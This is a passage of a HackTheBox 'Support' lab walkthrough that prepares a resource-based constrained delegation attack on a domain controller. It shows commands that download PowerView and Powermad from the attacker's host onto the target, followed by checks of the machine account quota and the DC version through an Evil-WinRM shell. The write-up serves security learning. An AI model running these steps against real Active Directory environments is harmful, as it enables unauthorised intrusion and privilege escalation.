 Here I drew the process, to see in a glance what it is happening:


<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/6_0_kerb.png" width="90%"/>
</p>


To perform this attack, first, we place the PowerView and Powermad tools into the machine to check if we have the requierements:


```bash
Invoke-WebRequest -Uri "http://10.10.14.3:5454/PowerView.ps1" -Outfile PowerView.ps1
Invoke-WebRequest -Uri "http://10.10.14.3:5454/Powermad.ps1" -Outfile Powermad.ps1
Import-Module .\PowerView.ps1
Import-Module .\Powermad.ps1
```


Since for this attack we have to create a computer object, we need to check if our users is allowed to create those machines (it is within the attribute _ms-ds-machineaccountquota_ and by default is 10 machines):

```bash
Get-DomainObject -Identity "dc=support,dc=htb" -Domain support.htb
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/6_1_quota.png" width="70%"/>
</p>

We can see that the quota is ten, so requirement checked. Now, the attack also requires the DC to be running at least Windows 2012, so let's check if we're in the right environment:

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> Get-DomainController

Forest                     : support.htb
CurrentTime                : 8/5/2022 7:37:07 AM
HighestCommittedUsn        : 86255
OSVersion                  : Windows Server 2022 Standard
Roles                      : {SchemaRole, NamingRole, PdcRole, RidRole...}
Domain                     : support.htb
IPAddress                  : ::1
SiteName                   : Default-First-Site-Name
SyncFromAllServersCallback :
InboundConnections         : {}
OutboundConnections        : {}
Name                       : dc.support.htb
Partitions                 : {DC=support,DC=htb, CN=Configuration,DC=support,DC=htb, CN=Schema,CN=Configuration,DC=support,DC=htb, DC=DomainDnsZones,DC=support,DC=htb...}
```

We have Windows Server 2022 Standard, so we are fine with this requirement. Last but not least, the target computer DC.SUPPORT.HTB object must not have the attribute _msds-allowedtoactonbehalfofotheridentity_ set:

